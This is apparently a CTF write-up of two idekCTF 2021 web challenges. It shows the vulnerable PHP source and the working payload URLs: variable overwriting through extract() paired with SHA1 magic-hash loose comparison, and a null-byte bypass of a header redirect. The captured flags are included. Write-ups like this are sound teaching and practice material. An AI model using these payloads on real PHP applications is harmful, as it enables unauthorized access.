 # idekCTF-2021
* Category: Web 
* Name: Cookie-and-milk
* Level: None 
* The challenges only main page and included php source
![Main function](Cookie-and-milk/1.PNG)
# Source Code Analysis
```c
include(__DIR__."/lib.php");
extract($_GET);

if ($_SESSION['idek'] === $_COOKIE['idek'])
{
    echo "I love c0000000000000000000000000000000000000kie";
}

else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )
{
    echo $flag;
}

show_source(__FILE__);
?>
```
* The source code nothing special i attention `extract($_GET);` i explained this function, a function named extract() to take all provided GET and POST requests and assign them to internal variables.This function will overwrite any previously defined variables, including server variables.if you want get the flag, the session must equals the cookie `$_SESSION['idek'] == $_COOKIE['idek']`, but this line of code `else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )` used `==` it's called `Loose Comparison` lead to bugs or vulnerability exploit.

# Solution
* I used [SHA1](https://github.com/spaze/hashes/blob/master/sha1.md) in this github repo all strings have different values but when encrypt sha1 and loose compare it will return true 
# Payload 
```c
http://cookie-and-milk.rf.gd/?_SESSION[idek]=aa3OFF9m&_COOKIE[idek]=w9KASOk6Ikap&i=1
```
# FLAG
![Main function](Cookie-and-milk/2.PNG)
* `idek{C0okie_s1ea1ing_1s_c0ol!!!}`

# Memory-of-PHP
* Techniques: `CRLF`
* in this challenges similar challenges above it's included php source 
![Main function](Memory-of-PHP/1.PNG)
# Source Code Analysis
```c
<?php

include(__DIR__."/lib.php");
$check = substr($_SERVER['QUERY_STRING'], 0, 32);
if (preg_match("/best-team/i", $check))
{
    echo "Who is the best team?";
}
if ($_GET['best-team'] === "idek_is_the_best")
{
    echo "That a right answer, Here is my prize, <br>";
    echo $flag;
}
show_source(__FILE__);
?>
```
* I attention line of code `if ($_GET['best-team'] === "idek_is_the_best")`, if `best-team` equals `idek_is_the_best` it will print `That a right answer, Here is my prize` after that you must bypass success and server return flag for you
# Solution
```c
http://memory-of-php.rf.gd/?best-team=idek_is_the_best
```

![Main function](Memory-of-PHP/2.PNG)
* Now i access `/secure-bypass.php` i have new source, my target bypass then get flag

![Main function](Memory-of-PHP/3.PNG)
* Let's source code analysis 
* First line of code `if (isset($_GET['url'][15]))` parameter `url` with `GET` method and string length require 15 characters
* Seconds line of code `header("location: {$_GET['url']}");` will redirect url you input but in this challenges i realized can used `CRLF` or `nullbyte` for bypass
* I found blog instruction this techniques [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)
# Payload
```c
http://memory-of-php.rf.gd/secure-bypass.php?url=d4rkp0w4rrrrrrrr%00
```
# FLAG
![Main function](Memory-of-PHP/4.PNG)
* `idek{nu11_by1e_bypass1ng_1s_C0ol!_ftw_br0!!!!}`
